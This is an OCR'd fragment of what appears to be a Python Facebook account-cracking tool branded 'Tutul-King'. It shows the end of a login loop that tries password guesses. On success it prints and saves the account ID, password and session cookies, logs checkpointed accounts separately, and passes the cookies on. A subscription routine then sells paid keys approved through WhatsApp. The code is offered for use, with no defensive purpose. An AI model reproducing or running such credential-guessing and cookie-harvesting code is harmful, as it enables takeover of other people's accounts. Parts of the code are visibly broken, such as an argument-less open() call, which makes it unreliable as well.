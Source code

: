 				os.system('espeak -a 300 " C,  P"')
			    #open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				#Tutul-King
				print(f'\r\033[0;92m[{time.strftime("%H:%M")}•Tutul-Ok💚] {idf} • {pw}\n\033[0;93m[🌺]= COOKIES • \033[0;92m{kuki} ')
				print('\033[0;94m==============================================================')
				os.system('espeak -a 300 " Tutul,  Ok,  id"')
				open('OK/'+okc,'a').write(idf+' • '+pw+'\n')
				cek_apk(session,coki)
				break
				
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
if __name__=='__main__':
	try:os.system('git pull')
	except:pass
	try:os.system('touch prox.txt')
	except:pass

def Subscraption():
	key1=open()
	r1=requests.get("https://github.com/Tutul-King/Public-CloNing-42o/blob/main/Approval.txt").text
	if key1 in r1:
		os.system('clear')
		login()
	else:
		os.system("clear")
		print("\033[97;1m[\033[92;1m•\033[97;1m]\33[0;92m FREE USER NOT COME INBOX")
		time.sleep(0.0010)
		print("\033[97;1m[\033[92;1m•\033[97;1m]\x1b[38;5;208m Tutul King, ToOLs Daily Update")
		print("\033[97;1m[\033[92;1m•\033[97;1m]\33[0;92m 7 DAYS 300 Tk")
		print("\033[97;1m[\033[92;1m•\033[97;1m]\33[0;92m 15 DAYS 500 Tk")
		print("\033[97;1m[\033[92;1m•\033[97;1m]\33[0;92m Your Key  :\033[0;93m "+ak+Tutul+key1)
		name = input("\033[97;1m[\033[92;1m•\033[97;1m]\33[0;92m Your Name : ")
		input("\033[97;1m[\033[92;1m•\033[97;1m]\33[0;92m Press Enter To Send Key")
		time.sleep(3.5)
		tks = 'Assalamu%20Alaikum-!💚,%20Please%20Approved%20My%20Key%20To%20Premium%20%20Thanks%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20My%20Name%20:%20'+name+'%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20My%20%20Key%20%20:%20'+ak+Tutul+''+key1
		os.system('am start https://wa.me/+8801608843956?text=' + tks)
		Subscraption() 
Subscraption() 
login()
